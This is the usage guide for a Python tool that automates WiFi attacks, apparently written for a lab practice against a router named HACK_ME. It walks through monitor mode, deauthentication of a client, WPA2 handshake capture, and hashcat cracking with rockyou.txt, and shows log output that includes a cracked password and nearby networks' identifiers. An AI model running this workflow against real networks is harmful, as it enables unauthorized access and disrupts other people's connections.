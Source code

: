 # Detailed Instructions for Using the "wifi-attack-automation-tool"

Before running the script `wifi-attack-automation-tool.py`, it is essential to have **root privileges**, as the applications used by the script require these permissions.

Once the necessary privileges have been obtained, proceed to execute the script using the following command:

```
# python3 wifi-attack-automation-tool.py
```

The script itself will verify whether the required **Python packages and system tools** are installed for proper operation.

```
# python3 wifi-attack-automation-tool.py
[2025-06-26 23:12:05.999] <inf> Verifying required Python packages:
[2025-06-26 23:12:05.999] <inf> print_helper_logger is installed
[2025-06-26 23:12:05.999] <inf> scapy is installed
[2025-06-26 23:12:05.999] <inf> deauth_lib is available
[2025-06-26 23:12:05.999] <inf> All required Python packages are ready
[2025-06-26 23:12:06.272] <inf> Verifying required tools:
[2025-06-26 23:12:06.272] <inf> iw found
[2025-06-26 23:12:06.272] <inf> ifconfig found
[2025-06-26 23:12:06.272] <inf> iwconfig found
[2025-06-26 23:12:06.272] <inf> airodump-ng found
[2025-06-26 23:12:06.272] <inf> hcxpcapngtool found
[2025-06-26 23:12:06.272] <inf> hashcat found
[2025-06-26 23:12:06.272] <inf> All tools are ready. System check passed
[2025-06-26 23:12:06.279] <inf> Interfaces that support monitor mode:
[2025-06-26 23:12:06.279] <inf> 1)   wlx00e0202d05b8
```

Next, a list of available **network interfaces capable of monitor mode** will be displayed. You must select the desired one; in our case, it is the interface named `wlx00e0202d05b8`, so we choose **option number 1**.

At this point, the script will:
- Configure the selected interface in **monitor mode**.
- Prepare the environment to scan available wireless networks, including:
  - Access Points (AP)
  - Devices connected to them.

```
CH  9 ][ Elapsed: 1 min ][ 2025-06-26 23:26 

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

60:8D:26:FA:ED:11   -1        0        0    0  -1   -1                    <length:  0>                                                                                                                    
E4:AB:89:9B:46:C2   -1        0        0    0  -1   -1                    <length:  0>                                                                                                                    
88:DE:7C:A2:91:9F   -1        0        0    0  -1   -1                    <length:  0>                                                                                                                    
CC:D4:A1:83:05:2F   -1        0        0    0  -1   -1                    <length:  0>                                                                                                                    
4C:1B:86:AB:63:3D   -1        0        0    0  -1   -1                    <length:  0>                                                                                                                    
EC:F4:51:7B:45:BB   -1        0        0    0  -1   -1                    <length:  0>                                                                                                                    
28:9E:FC:3E:19:36   -1        0        0    0  -1   -1                    <length:  0>                                                                                                                    
50:09:59:F2:BE:A9   -1        0        0    0  -1   -1                    <length:  0>                                                                                                                    
2C:96:82:DD:4F:80  -58      234       20    0   6  648   WPA2 CCMP   PSK  MOVISTAR-WIFI6-4F80                                                                                                             
EC:BE:DD:AD:08:96  -57      256      160    0   9  195   WPA2 CCMP   PSK  HACK_ME                                                                                                                         
F4:1E:57:06:AA:F3  -70      128       40    0   1  360   WPA3 CCMP   SAE  OSCVER                                                                                                                          
34:60:F9:6A:95:62  -70      229        5    0   6  130   WPA2 CCMP   PSK  MOVISTAR-WIFI6-4F80_EXT                                                                                                         
D0:57:94:70:24:76   -1        0        0    0  -1   -1                    <length:  0>                                                                                                                    
0C:01:4B:3E:E2:AE   -1        0        0    0  -1   -1                    <length:  0>                                                                                                                    
DC:51:93:D5:0A:F2   -1        0        0    0  -1   -1                    <length:  0>                                                                                                                    

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

2C:96:82:DD:4F:80  EC:0B:AE:6E:CE:B1  -61    0 - 1e     0        1                                                                                                                                         
2C:96:82:DD:4F:80  B8:50:D8:32:24:A8  -67    6e- 1e     0        3                                                                                                                                         
2C:96:82:DD:4F:80  F4:CE:46:52:FD:7E  -69    0 -36e     0       13                                                                                                                                         
2C:96:82:DD:4F:80  36:60:F9:0A:95:62  -71    6e- 1e     1       18                                                                                                                                         
EC:BE:DD:AD:08:96  F6:B1:11:45:98:25  -61    0 - 1e     0      182                                                                                                                                         
F4:1E:57:06:AA:F3  5A:A7:05:F0:B2:D0  -57    1e- 1e     2      175                                                                                                                                         
F4:1E:57:06:AA:F3  44:07:0B:A9:BD:11  -57    1e- 1e     0       32         OSCVER                                                                                                                          
F4:1E:57:06:AA:F3  F0:FE:6B:C0:F9:28  -61    1e- 1      9       11                                                                                                                                         
D0:57:94:70:24:76  CC:8C:BF:3C:38:05  -61    0 - 1     25      860                                                                                                                                         
(not associated)   D4:8D:26:2D:3C:3F  -75    0 - 1      0        1         Lowi753D                                                                                                                        
Quitting...
```

Once the **target network** has been identified (for example, the AP `HACK_ME` with BSSID `EC:BE:DD:AD:08:96`), we also select the **associated device** to which we will send **DeAuth packets**.

The objective is to **force its disconnection** in order to capture the **handshake** when it attempts to reconnect.

By stopping the scan with `Ctrl+C`, the script will analyze the devices connected to valid access points and display a list of them.


```
Quitting...
[2025-06-26 23:26:27.691] <wrn> (airodump-ng) Execution interrupted by user (CTRL+C)
[2025-06-26 23:26:27.691] <inf> 📋 Available targets with valid channels:
[2025-06-26 23:26:27.691] <inf> 1) 36:60:F9:0A:95:62 → BSSID: 2C:96:82:DD:4F:80 (Channel 6)
[2025-06-26 23:26:27.691] <inf> 2) F4:CE:46:52:FD:7E → BSSID: 2C:96:82:DD:4F:80 (Channel 6)
[2025-06-26 23:26:27.691] <inf> 3) B8:50:D8:32:24:A8 → BSSID: 2C:96:82:DD:4F:80 (Channel 6)
[2025-06-26 23:26:27.691] <inf> 4) EC:0B:AE:6E:CE:B1 → BSSID: 2C:96:82:DD:4F:80 (Channel 6)
[2025-06-26 23:26:27.691] <inf> 5) F0:FE:6B:C0:F9:28 → BSSID: F4:1E:57:06:AA:F3 (Channel 1)
[2025-06-26 23:26:27.691] <inf> 6) F6:B1:11:45:98:25 → BSSID: EC:BE:DD:AD:08:96 (Channel 9)
[2025-06-26 23:26:27.691] <inf> 7) 44:07:0B:A9:BD:11 → BSSID: F4:1E:57:06:AA:F3 (Channel 1)
[2025-06-26 23:26:27.691] <inf> 8) 5A:A7:05:F0:B2:D0 → BSSID: F4:1E:57:06:AA:F3 (Channel 1)
```

We will then be prompted to **select the device to attack**, i.e., the one to which we will send the DeAuth packets. In this case, we select **option number 6**.

```
Enter the number of the client to target: 6
[2025-06-26 23:37:29.852] <inf> 🎯 Target selected: F6:B1:11:45:98:25 → AP: EC:BE:DD:AD:08:96 on channel 9
Enter number of DeAuth packets to send [default: 25]:
```

Next, we need to specify **how many DeAuth packets** we want to send:
- If no value is entered, the **default** is **25 packets**.
- By default, they will be sent **every 0.5 seconds**.

Once the number of packets is confirmed:
- A process will open using `airodump-ng` to **listen on the channel** corresponding to the selected AP (in this example, **channel 9**).
- Simultaneously, another process will start to **send the DeAuth packets**.

After the attack is completed, the **capture process will automatically close**.

```
Sent 25 packets.
[2025-06-26 23:39:22.142] <inf> Stopping handshake capture...

```

Subsequently, the tool `hcxpcapngtool` will be used to **convert the `.cap` file generated by `airodump-ng` into a hash format**.

```
[2025-06-26 23:39:22.156] <inf> Convert pcap to hash using hcxpcapngtool
[2025-06-26 23:39:22.166] <inf> (hcxpcapngtool) Conversion successful: /home/oscargomezf/GIT/wifi-attack-automation-tool/captures/wpa2.hc22000
[2025-06-26 23:39:22.166] <inf> /home/oscargomezf/GIT/wifi-attack-automation-tool/captures/wpa2.hc22000: WPA*01*70b128dd915b8008211276e7673bfcae*ecbeddad0896*f6b111459825*4841434b5f4d45***
WPA*02*f6c00ee66cd21f652adba752abe9149e*ecbeddad0896*f6b111459825*4841434b5f4d45*9005aa9a8b4f40769756c183aa1f2399d43bc46c0609731c017c1c1721b3a4d5*0103007502010a000000000000000000224d2532781f3de8856dc001f71a35312f3af13e32871a8dddb332179932600314000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac020100000fac040100000fac020000*a2
```

With the hash file prepared, the tool `hashcat` will be used along with the password list `rockyou.txt` to **perform a brute-force attack** in an attempt to **crack the password**.

> ⏳ **Note:** The time required will depend on the size of the wordlist.

```
[2025-06-26 23:39:22.166] <inf> Trying to crack the hash using Hashcat (this task may take several minutes)...
[2025-06-26 23:41:57.437] <wrn> Password found: pipeylaura
[2025-06-26 23:41:57.437] <inf> Restoring interface to mode: managed
```

Finally, if the process is successful, the **recovered password will be displayed** (for example, `pipeylaura`).

As a **final step**, the script will **return the WiFi interface to its original state**.

---

## Additional Notes

- **Note 1:** It is recommended to run the script within a **Python virtual environment** to avoid dependency conflicts.

- **Note 2:** The router with SSID `HACK_ME` has been prepared **exclusively for this practice**.
  - **Security:** WPA + WPA2
  - **Key:** Randomly selected from the `rockyou.txt` wordlist.
